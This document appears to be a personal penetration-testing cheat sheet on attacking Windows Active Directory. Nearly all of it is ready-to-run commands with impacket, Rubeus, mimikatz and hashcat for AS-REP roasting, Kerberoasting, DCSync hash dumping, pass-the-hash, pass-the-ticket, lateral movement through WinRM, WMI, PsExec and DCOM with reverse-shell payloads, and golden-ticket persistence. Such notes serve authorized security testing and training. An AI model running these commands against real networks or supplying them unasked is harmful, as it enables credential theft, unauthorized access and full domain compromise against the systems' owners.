 # Active Directory

## Compromising Credentials

### AS-REP Roasting
If for some ridiculous reason the `Do not require Kerberos preauthentication` user setting is enabled, the door is open for querying for and receiving the users encrypted credentials, which we can then crack offline:
```bash
impacket-GetNPUsers -dc-ip 192.168.12.34  -request -outputfile hashes.asreproast our.domain/chumpasaurusUser
```
Then crack with Hashcat:
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
If we'd like to do the same thing but from Windows then:
```powershell
.\Rubeus.exe asreproast /nowrap
```
Copy the output to Kali and save it in a file called `hashes.asreproast`, and the command above will work just as well.

### Kerberoasting
For classic Kerberoasting from Windows:
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Same deal with copying the hashes back over to Kali:
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
For the same but from Kali:
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.12.34 our.domain/chumpasaurusUser
```

### Silver Tickets
If attempting to forge a silver ticket to hit a website, the following will work nicely from within Mimikatz:
```
mimikatz # kerberos::golden /sid:<current user SID> /domain:our.domain /ptt /target:target-site.our.domain /service:http /rc4:<NTLM hash of user whose privilege we want to assume> /user:chumpasaurusUser
```

### DC Sync
We can impersonate a Domain Controller and prompt others to perform a sync operation. This can allow us to retrieve the NTLM hash of any user. Via Mimikatz:
```
mimikatz # lsadump::dcsync /user:corp\Administrator
```
and via Linux:
```bash
impacket-secretsdump -just-dc-user Administrator corp.com/powerfulUser:"rubbishPassw0rd\!"@192.168.12.34
```

## Moving Laterally

### Powershell Creds Block
For both WinRM and WMI make use of the following to generate a `$credential` variable:
```powershell
$username = 'chump';
$password = 'chumpsDogsName123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```


### WinRM
Assuming you have credentials, the following will give us a Powershell session 
```powershell
New-PSSession -ComputerName 192.168.12.34 -Credential $credential
Enter-PSsession 1
```

### WMI
If for some reason we cannot use WinRM, or if we'd rather have a reverse shell from Kali, then worth trying WMI as an alternative:
```powershell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.12.34 -Credential $credential -SessionOption $Options
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
The `$Command` variable used above that isn't explicitly defined anywhere should be a base64 encoded reverse shell written in Powershell as detailed in `notes/shells.md`

### PsExec
This will need to be imported onto the machine, but once there very convenient. Comes as part of the SysInternals suite.
```powershell
./PsExec64.exe -i  \\TARGE-MACHINE -u corp\chump -p chumpsPassword cmd
```

### Pass the Hash - SMB Shares
Assuming we have already laid our hands on an NTLM hash courtesy of `mimikatz`, the following command will give us access to an SMB Share with those credentials:
```bash
smbclient \\\\<IP address or computer name>\\<share name> -U <user name> --pw-nt-hash <user hash>
```
for example:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

### Pass the Hash - Reverse Shell
We can authenticate to just about anything if the user whose hash we've obtained exists on the target machine, but as usual the holy grail is to just obtain a reverse shell:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:<user hash> <user name>@<target IP>
```

### Pass the Hash - CMD Shell
Now with the Impacket suite:
```powershell
/usr/bin/impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.12.34
```

### Pass the Hash - Mimikatz
As if we needed another way of doing this, but here it is again with Mimikatz:
```
mimikatz # sekurlsa::pth /user:chump /domain:corp.com /ntlm:7a38310ea6f0027ee955abed1762964b /run:powershell
```

### Overpass the Hash
Instead of merely leveraging an NTLM hash to authenticate as a user, we could use it to obtain a Ticket Granting Ticket (TGT). This will allow us to make use of services that authenticate via Kerberos, and do not accept NTLM hashes. Namely the SysInternals PsExec.exe program.

First auth against a network share to make sure there is a TGT cached on the machine:
```powershell
net use \\machine07
```
Verify a TGT has been cached:
```powershell
klist
```
Now leverage to obtain a shell on a machine that we otherwise might not have been able to:
```powershell
.\PsExec.exe \\files04 cmd
```

### Pass the Ticket
Dump all TGT and TGSs present on the machine we have an admin presence on:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
Load the ticket we like the look of into our current session:
```
mimikatz # kerberos::ptt name-of-ticket-we-liked.kirbi
```
This should give our current session any privilege that that ticket grants that we didn't have already. Eg. the ability to view previously restricted files in a network fileshare.

### DCOM
To create a DCOM object:
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.12.34"))
```
To leverage it to execute commands:
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"<our payload>","7")
```
For the payload section, once again we should make use of a base64 encoded Powershell reverse shell as detailed in `notes/shells.md`.


## Persistence

### Golden Ticket Forgery
If we have managed to own a domain controller, or a domain admin account, and we'd like to persist our access, then an ideal approach for us is to forge a so-called Golden Ticket.
```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:chump /domain:corp.com /sid:<chumps SID> /krbtgt:<krbtgt's NTLM hash> /ptt
mimikatz # misc::cmd
```
```powershell
PsExec.exe \\domainController cmd.exe
```
Nb. for the command above it is important to note that this is just Overpass The Hash on steroids, and that its important for us to leverage the hostname rather than the IP address. This is because if we use the hostname we leverage Kerberos as the auth mechanism, which we have just owned courtesy of our Golden Ticket. However if we use an IP then we fall back to NTLM auth, within which we have no special privilege.
